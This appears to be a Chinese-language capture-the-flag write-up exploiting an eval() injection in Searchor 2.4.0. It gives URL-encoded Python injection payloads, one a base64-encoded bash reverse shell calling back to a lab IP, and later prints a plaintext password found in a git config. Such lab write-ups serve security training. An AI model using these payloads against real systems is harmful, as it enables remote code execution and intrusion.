     如果您想自動重定向，可以勾選複選框。然後，您將自動重新導向到所選引擎，並顯示您搜尋的查詢結果。否則，您將獲得搜尋結果的 URL，您可以隨意使用。
    ```
- 我們設定我們的搜尋引擎 Google 然後 Query 填入 hello
![image](https://hackmd.io/_uploads/rkI9p4tGll.png)

- 順便用burp 攔看看 可以看到 engine=...&query=...
![image](https://hackmd.io/_uploads/ByFjJcqMgg.png)
![image](https://hackmd.io/_uploads/B1uCpVtzeg.png)

# 3. Exploitation
- 查了一下 Searchor 2.4.0 CVE 可以發現有eval function問題
![image](https://hackmd.io/_uploads/B1S57Z9zlx.png)

- 猜測這個位置 code 是這樣 (如果輸入的 query 沒經過驗證就會非常危險)
    ```code
    url = eval(f"Engine.{engine}.search('{query}')")
    ```
- 原理分析
![image](https://hackmd.io/_uploads/BkXGrqcMle.png)

- url 編碼
`engine=Google&query=hello%27%29%2B__import__%28%27os%27%29.system%28%27whoami%27%29%23`
![image](https://hackmd.io/_uploads/B1YvQ9qGge.png)
![image](https://hackmd.io/_uploads/SkKMtrVXgl.png)

### Payload : 
- Reverse Shell : `query = "Hello')+ str(__import__('os').system('echo <base64_payload>|base64 -d|bash'))#"`
- Url encode （echo "{Reverse shell}" | base64）
`engine=Google&query=Hello%27%29%2B%20str%28__import__%28%27os%27%29.system%28%27echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4zLzQ0NDQgMD4mMQo%3D%7Cbase64%20-d%7Cbash%27%29%29%23`
![image](https://hackmd.io/_uploads/rJsuV95Ggg.png)
- 成功拿到 Shell (TTY shell)
![image](https://hackmd.io/_uploads/H1PVDqqfll.png)

- cd .. 出去找到 home 目錄 (home 在 Linux 系統中，/home 目錄是每個「使用者帳號」的家目錄所在的地方。這裡會儲存使用者的個人檔案、設定、下載資料等) 發現第一組 flag
![image](https://hackmd.io/_uploads/HkYD8bqGeg.png)


# 4. Privilege Escalation
- 根據題目提醒 `為了將權限提升到 root 權限，我們在 Git 設定檔中發現了一些憑證，這些憑證允許我們登入本機 Gitea 服務。`
![image](https://hackmd.io/_uploads/SJbZNMEQgl.png)

- 描述遠端主機的設定（origin 是預設名稱）發現明文密碼洩漏 `jh1usoih2bkjaspwe92` 跟 Gitea 服務
![image](https://hackmd.io/_uploads/BywXNGNXxl.png)
